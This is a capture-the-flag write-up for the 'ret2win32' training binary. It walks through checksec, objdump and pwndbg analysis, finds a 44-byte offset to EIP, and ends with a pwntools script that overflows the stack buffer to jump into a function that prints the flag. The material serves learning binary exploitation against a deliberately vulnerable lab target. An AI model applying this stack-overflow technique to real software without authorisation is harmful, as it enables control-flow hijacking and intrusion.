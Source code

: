 First of all, use checksec to get some binary information

```
[marco@marco-pc Downloads]$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=70a25eb0b818fdc0bafabe17e07bccacb8513a53, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   79 Symbols     No	0		3	ret2win32
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table


```
objdump -t ret2win32
...
080485f6 l     F .text	00000063              pwnme
08048659 l     F .text	00000029              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, which print some strings and get an input;
- ret2win which perfom a system comand "cat flag.txt"

```
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x08048659 <+0>:	push   ebp
   0x0804865a <+1>:	mov    ebp,esp
   0x0804865c <+3>:	sub    esp,0x8
   0x0804865f <+6>:	sub    esp,0xc
   0x08048662 <+9>:	push   0x8048824
   0x08048667 <+14>:	call   0x8048400 <printf@plt>
   0x0804866c <+19>:	add    esp,0x10
   0x0804866f <+22>:	sub    esp,0xc
   0x08048672 <+25>:	push   0x8048841
   0x08048677 <+30>:	call   0x8048430 <system@plt>
   0x0804867c <+35>:	add    esp,0x10
   0x0804867f <+38>:	nop
   0x08048680 <+39>:	leave  
   0x08048681 <+40>:	ret    
End of assembler dump.
pwndbg> x/s 0x8048841
0x8048841:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until EIP

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44

...
```

Final exploit:



```python
  1 #!/usr/bin/python3
  2 
  3 import struct
  4 from pwn import *
  5 
  6 ret2win_addr = 0x08048659
  7 
  8 shellcode = ("A"*44).encode()
  9 shellcode += struct.pack("I", ret2win_addr)
 10 
 11 p = process('./ret2win32')
 12 
 13 p.recvuntil('>')
 14 p.sendline(shellcode)
 15 p.interactive()
```
